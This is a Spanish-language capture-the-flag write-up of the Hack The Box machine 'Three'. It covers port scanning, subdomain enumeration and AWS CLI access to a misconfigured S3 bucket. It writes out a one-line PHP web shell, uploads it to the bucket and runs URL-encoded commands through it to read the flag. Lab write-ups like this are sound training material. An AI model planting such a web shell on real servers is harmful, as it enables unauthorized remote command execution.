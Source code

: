 ```yaml
---
title: Three
date: 2025-04-8 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, responder]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Three
De nuevo una serie de tareas para ir resolviendo la máquina. Esta vez parece algo relacionado con s3 de amazon.

Task 1

How many TCP ports are open?
```shell
└─$ nmap -p- -vv -T4 10.129.229.84                    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 17:20 EDT
Initiating Ping Scan at 17:20
Scanning 10.129.229.84 [4 ports]
Completed Ping Scan at 17:20, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 13.00s elapsed
Initiating SYN Stealth Scan at 17:20
Scanning 10.129.229.84 [65535 ports]
Discovered open port 80/tcp on 10.129.229.84
Discovered open port 22/tcp on 10.129.229.84
```
>2

Task 2

What is the domain of the email address provided in the "Contact" section of the website?

>thetoppers.htb

Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
> /etc/hosts

Task 4

Which sub-domain is discovered during further enumeration?

Antes de continuar con esta tarea tuve que instalar seclist en la máquina Kali25 que estoy utilizando para hacer los retos de HTB. 
Luego podremos valernos de gobuster para buscar 
```
apt install seclist
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://thetoppers.htb
```

Sin embargo no tuve resultados. Encontré una explicación en [Reddit](https://www.reddit.com/r/hackthebox/comments/11bsuxt/can_find_the_s3_subdomain_that_i_am_supposed_to/?tl=es-es&rdt=58488) Algo malo pasa con esta máquina? Es posible porque me dan pistas cuando hago spawn... 

Please wait for a few minutes until all machine related services are up and running.
Expect to see {"status":"running"} when visiting s3.thetoppers.htb

> s3.thetoppers.htb

Task 5

Which service is running on the discovered sub-domain?

Como es lógico sería inútil usar nmap contra un dominio en amazon, pero es posible que una mala configuración de la máquina nos permita el acceso
volvemos a configurar /etc/hostname, esta vez con el subdomino por delante. 

```shell
10.129.234.148 s3.thetoppers.htb
```
Ahora visitamos la web http://s3.thetoppers.htb/ parece que la instanancia muestra un status 
```
{"status": "running"}
```
> amazon s3

Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?
> awscli

Task 7

Which command is used to set up the AWS CLI installation?
``` shell
sudo apt install awscli
```
> aws configure

Task 8 

What is the command used by the above utility to list all of the S3 buckets?

Aqui tenemos que configurar el cliente de aws antes de poner usarlo contra la instancia de s3
``` shell
└─$ aws configure                               
AWS Access Key ID [None]: hacked
AWS Secret Access Key [None]: hacked
Default region name [None]: hacked
Default output format [None]: hacked
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2025-04-08 16:27:00          0 .htaccess
2025-04-08 16:27:00      11952 index.php

```
> aws s3 ls 

Task 9

This server is configured to run files written in what web scripting language?
> php

Submit Flag

Vamos a codificar una pequeña shell en PHP que al pasarle parámetros los ejecute como instrucciones del lado del servidor

``` php
<?php
    system($_GET["cmd"]);
?>
```
Ahora lo subimos a la instancia de s3 
``` shell
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp hello.php s3://thetoppers.htb  
upload: ./hello.php to s3://thetoppers.htb/hello.php              
```
Ahora desde el navegador deberíamos poder ejecutar comandos en la instancia para encodear los comandos en un formato que no rechaze el servidor te puedes valer de URL encoders que hay online de forma que **ls /var/www** se convierte en **ls%20%2Fvar%2Fwww**                                                     

```
http://thetoppers.htb/hello.php?cmd=ls%20%2Fvar%2Fwww

flag.txt html 

http://thetoppers.htb/hello.php?cmd=cat%20%2Fvar%2Fwww%2Fflag.txt%0A

```

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/489)

